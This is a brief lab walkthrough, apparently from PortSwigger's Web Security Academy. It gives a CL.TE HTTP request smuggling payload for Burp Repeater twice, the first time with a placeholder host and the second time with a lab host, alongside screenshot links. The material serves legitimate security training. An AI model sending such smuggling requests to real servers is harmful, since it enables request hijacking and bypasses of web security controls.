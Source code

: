 
1. Using Burp Repeater, issue the following request twice:

```http
POST / HTTP/1.1 Host: YOUR-LAB-ID.web-security-academy.net 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 35 
Transfer-Encoding: chunked 

0 
GET /404 HTTP/1.1 
X-Ignore: X

```

![](/static/img/Pasted_image_20231201082245.png)

```http

POST / HTTP/1.1
Host: 0a4800510460ac6281b75774003d006b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X

```

![](/static/img/Pasted_image_20231201082318.png)


